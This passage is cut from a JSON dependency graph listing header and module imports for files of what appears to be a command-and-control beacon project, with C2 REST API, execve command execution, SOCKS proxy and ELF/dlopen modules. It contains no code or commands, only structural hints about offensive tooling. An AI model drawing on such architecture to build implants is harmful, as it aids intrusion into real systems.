"include/beacon_common.c", "target": "sys/ioctl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "curl/curl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "signal.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "openssl/rand.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "openssl/hmac.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "openssl/sha.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "openssl/bio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "openssl/buffer.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.h", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.h", "target": "stdint.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.h", "target": "sys/types.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.h", "target": "config.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/cJSON.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/cJSON.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/cJSON.c", "target": "math.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/cJSON.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/cJSON.c", "target": "limits.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/cJSON.c", "target": "ctype.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/cJSON.c", "target": "float.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/cJSON.c", "target": "locale.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/cJSON.c", "target": "cJSON.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/cJSON.h", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config.c", "target": "config.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config.c", "target": "ctype.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config.c", "target": "time.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config.c", "target": "limits.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config.c", "target": "openssl/hmac.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config.c", "target": "openssl/sha.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config.h", "target": "stdint.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config.h", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_autogen.c", "target": "config_autogen.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_autogen.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_autogen.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_autogen.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_autogen.c", "target": "ctype.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_autogen.c", "target": "time.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_autogen.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_autogen.c", "target": "limits.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_autogen.h", "target": "stdint.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_autogen.h", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_py.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_py.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_py.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_py.py", "target": "cryptography.hazmat.primitives.kdf.hkdf"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_py.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_py_autogen.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_py_autogen.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_py_autogen.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_py_autogen.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_py_autogen.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_py_autogen.py", "target": "cryptography.hazmat.primitives.kdf.hkdf"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/config_py_autogen.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "time.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "sys/types.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "sys/socket.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "netinet/in.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "arpa/inet.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "net/if.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "sys/ioctl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "pwd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "errno.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "openssl/buffer.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "curl/curl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "openssl/rand.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "openssl/bio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "openssl/evp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "sys/mman.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "elf.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "dlfcn.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "fcntl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "stdint.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "sys/wait.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "netdb.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "beacon.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "aes.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon3.c", "target": "cJSON.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "time.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "sys/types.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "sys/socket.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "netinet/in.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "arpa/inet.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "net/if.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "sys/ioctl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "pwd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "errno.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "openssl/buffer.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "curl/curl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "openssl/rand.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "openssl/bio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "openssl/evp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "sys/mman.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "elf.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "dlfcn.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "fcntl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "stdint.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "sys/wait.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "netdb.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "pthread.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "sys/select.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "beacon.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "aes.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon5.c", "target": "cJSON.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "time.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "sys/types.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "sys/socket.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "netinet/in.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "arpa/inet.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "net/if.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "sys/ioctl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "pwd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "errno.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "openssl/buffer.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "curl/curl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "openssl/rand.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "openssl/bio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "openssl/evp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "sys/mman.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "elf.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "dlfcn.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "fcntl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "stdint.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "sys/wait.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "netdb.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "poll.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "beacon.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "aes.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon6.c", "target": "cJSON.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "time.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "sys/types.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "sys/socket.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "netinet/in.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "arpa/inet.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "net/if.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "sys/ioctl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "pwd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "errno.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "openssl/buffer.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "curl/curl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "openssl/rand.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "openssl/bio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "openssl/evp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "sys/mman.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "elf.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "dlfcn.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "fcntl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "stdint.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "sys/wait.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "netdb.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "pthread.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "beacon.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "aes.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/beacon_p2p.c", "target": "cJSON.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "time.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "sys/types.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "sys/socket.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "netinet/in.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "arpa/inet.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "net/if.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "sys/ioctl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "pwd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "errno.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "openssl/buffer.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "openssl/rand.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "sys/mman.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "elf.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "dlfcn.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "fcntl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "stdint.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "sys/wait.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "netdb.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "beacon.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "aes.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/gopher_beacon.c", "target": "cJSON.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "time.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "sys/types.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "sys/socket.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "netinet/in.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "arpa/inet.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "net/if.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "sys/ioctl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "pwd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "errno.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "openssl/buffer.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "openssl/rand.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "sys/mman.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "elf.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "dlfcn.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "fcntl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "stdint.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "sys/wait.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "netdb.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "beacon.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "aes.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "legacy/v1_gopher_beacon.c", "target": "cJSON.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/async_i_o_for_beacon.c", "target": "async_i_o_for_beacon.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/async_i_o_for_beacon.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/beacon_common.c_extraction.c", "target": "beacon_common.c_extraction.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/beacon_common.c_extraction.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/beacon_heartbeat___health_endpoint.c", "target": "beacon_heartbeat___health_endpoint.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/beacon_heartbeat___health_endpoint.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/bof_api_versioning.c", "target": "bof_api_versioning.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/bof_api_versioning.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/bof_path_traversal_hardening.c", "target": "bof_path_traversal_hardening.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/bof_path_traversal_hardening.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/bof_streaming_(large_outputs).c", "target": "bof_streaming_(large_outputs).h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/bof_streaming_(large_outputs).c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/c2_rest_api.c", "target": "c2_rest_api.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/c2_rest_api.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/certificate_pinning___tofu.c", "target": "certificate_pinning___tofu.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/certificate_pinning___tofu.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/command_execution_via_execve.c", "target": "command_execution_via_execve.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/command_execution_via_execve.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/containerized_build_+_sbom.c", "target": "containerized_build_+_sbom.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/containerized_build_+_sbom.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/hkdf_key_derivation.c", "target": "hkdf_key_derivation.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/hkdf_key_derivation.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/iv_generation_with_entropy_verification.c", "target": "iv_generation_with_entropy_verification.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/iv_generation_with_entropy_verification.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/mutation_testing_integration.c", "target": "mutation_testing_integration.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/mutation_testing_integration.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/pre-commit_+_ci_hardening.c", "target": "pre-commit_+_ci_hardening.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/pre-commit_+_ci_hardening.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/replay_protection.c", "target": "replay_protection.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/replay_protection.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/socks5___http_proxy_support.c", "target": "socks5___http_proxy_support.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/socks5___http_proxy_support.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/structured_jsonl_logging.c", "target": "structured_jsonl_logging.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/structured_jsonl_logging.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/tls_client_certificate_authentication.c", "target": "tls_client_certificate_authentication.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/tls_client_certificate_authentication.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/unified_config_schema.c", "target": "unified_config_schema.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/src/unified_config_schema.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/config_harness.c", "target": "config.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/config_harness.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/config_harness.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/config_harness.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/crypto_harness.c", "target": "aes_cfb.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/crypto_harness.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/crypto_harness.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/crypto_harness.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_async_i_o_for_beacon.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_async_i_o_for_beacon.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_async_i_o_for_beacon.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_async_i_o_for_beacon.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_async_i_o_for_beacon.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_async_i_o_for_beacon.py", "target": "sys"}, {"confidence": 